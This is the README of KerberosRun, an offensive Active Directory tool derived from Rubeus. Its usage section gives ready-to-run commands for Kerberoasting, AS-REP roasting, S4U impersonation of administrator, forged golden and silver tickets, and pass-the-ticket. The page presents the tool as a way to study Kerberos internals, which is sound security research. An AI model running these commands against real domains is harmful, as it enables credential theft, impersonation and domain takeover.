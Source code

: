 
# KerberosRun

KerberosRun is a little tool I use to study Kerberos internals together with my [ADCollector](https://github.com/dev-2null/ADCollector). I'll try to learn and implement stuff from [Rubeus](https://github.com/GhostPack/Rubeus), also something not in Rubeus.  

KerberosRun uses the [Kerberos.NET](https://github.com/dotnet/Kerberos.NET) library built by [Steve Syfuhs](https://twitter.com/stevesyfuhs). It is heavily adapated from [Harmj0y](https://twitter.com/harmj0y)'s Rubeus project (some code were taken directly from this project). 

[dev2null](https://twitter.com/dev2nulI) is the primary author of this project. My colleague [Constantin](https://twitter.com/_Herberos) is the collaborator who helped me build up the tool, had a lot of discussions with me and gave me ideas. 

Thanks Steve for builting up this great library and having discussions with me to solve code problems. Thanks Harmj0y (and other authors) for the concepts and weaponization in Rubeus. Special thanks to [@_dirkjan](https://twitter.com/_dirkjan) for helping me out regarding the KRBCRED structure and other questions.


## Authentication Flows

[AS Exchange](Authentication/AS_Exchange_DecryptedTGT.md)

[TGS Exchange: Unconstrained Delegation](Authentication/TGS_Exchange_UnconstrainedDelegation.md)

[TGS Exchange: S4U](Authentication/TGS_Exchange_S4U.md)

[TGS Exchange: Decrypted PAC](Authentication/TGS_Exchange_DecryptedWithPAC.md)

[All In One](Authentication/AllInOne.md)


## Usage
```powershell
PS C:\Users\dev2null\Desktop> .\KerberosRun.exe    

   __           __
  / /_____ ____/ /  ___ _______  ___ ______ _____
 /  '_/ -_) __/ _ \/ -_) __/ _ \(_-</ __/ // / _ \
/_/\_\\__/_/ /_.__/\__/_/  \___/___/_/  \_,_/_//_/

  v1.0.1

Usage: KerberosRun.exe -h
    
    [--AskTGT]              Ask for a TGT
        --User*             A valid username
        --Pass              A valid password
        --NopaC             Do not request PAC

    [--AskTGS]              Ask for a TGS
        --User*             A valid username
        --Pass              A valid password   
        --SPN*              Target SPN for the service request

    [--Kerberoast]          Kerberoasting
        --User*             A valid username
        --Pass              A valid password   
        --SPN*              Target SPN for Kerberoasting

    [--Asreproast]          ASREPRoasting
        --User*             A valid username that does not require PreAuth
        --Format            Output Hash format (John/Hashcat, Default: Hashcat)

    [--S4U2Self]            Service for User to Self
        --User*             A valid username that has SPN set
        --Pass              A valid password
        --ImperonsateUser*  A user to impersonate

    [--S4U]                 S4U2Self and S4U2Proxy
        --User*             A valid username that has SPN set
        --Pass              A valid password
        --Imperonsate*      A user to impersonate
        --SPN*              Target SPN for impersonate user

    [--Golden]              Build a Golden Ticket
        --RC4/AES128/AES256 krbtgt account hash
        --DomainSid*        Domain SIDs
        --UserID            User ID (default: 500)
        --User*             User name for the golden ticket

    [--Sliver]              Make a Sliver Ticket
        --RC4/AES128/AES256 Service account hash
        --DomainSid*        Domain SID
        --Service*          Service name (HTTP/CIFS/HOST...)
        --Host*             Target Servers
        --User*             User name for the sliver ticket

    [--Ticket]              Pass base64 encoded kirbi ticket into current session

     --Domain            A valid domain name (default: current domain)
     --RC4/AES128/AES256 A valid hash (alternative way for authentication) 
     --Verbose           Verbose mode
     --Outfile           Write the ticket to a kirbi file under the current directory
     --PTT               Pass the ticket into current session
     --DecryptTGT        Supply the krbtgt hash and decrypt the TGT ticket
     --DecryptTGS        Supply the service account hash and decrypt the TGS ticket
     --DecryptEtype   The encryption type of the hash for decrypting tickets (rc4/aes128/aes256) 
     --SrvName           The service account name for decrypting TGS


Example:  
        .\KerberosRun.exe --Asktgt --user username --pass password --nopac
        .\KerberosRun.exe --Asktgt --user username --pass password --verbose --outfile --decrypttgt [krbtgtHash] --decryptetype aes256
        .\KerberosRun.exe --Asktgs --user username --pass password --spn service/srv.domain.com --verbose --outfile
        .\KerberosRun.exe --Asreproast --user username --verbose
        .\KerberosRun.exe --Kerberoast --user username --rc4 [RC4Hash] --spn service/srv.domain.com
        .\KerberosRun.exe --S4U2Self --user username --aes128 [AES128Hash] --impersonateuser administrator --verbose
        .\KerberosRun.exe --S4U --user username --aes256 [AES256Hash] --impersonateuser administrator --spn ldap/dc1.domain.com --ptt
        .\KerberosRun.exe --Golden --user administrator --domain domain.com --userid 500 --domainsid  [DomainSID] --RC4 [krbtgtHash] --ptt
        .\KerberosRun.exe --Sliver --user administrator --domain domain.com --domainsid  [DomainSID] --RC4 [srvHash] --Service HTTP --HOST DC01$ -ptt
        .\KerberosRun.exe --Ticket Base64EncodedKirbiString/KirbiTicketFiles
```

## Sample Commands & Results

| [AskTGT](Authentication/Samples/AskTGT.md) | [AskTGS](Authentication/Samples/AskTGS.md) | [Asreproast](Authentication/Samples/Asreproast.md) | [Kerberoast](Authentication/Samples/Kerberoast.md) | [S4U2Self](Authentication/Samples/S4U2Self.md) | [S4U](Authentication/Samples/S4U.md) | [Golden](Authentication/Samples/Golden.md) | [Sliver](Authentication/Samples/Sliver.md) |



## License
KerberosRun has an MIT License. See the [License File](/LICENSE) for more details. Also see the [Notices file](/NOTICES) for more information on the licenses of projects this depends on.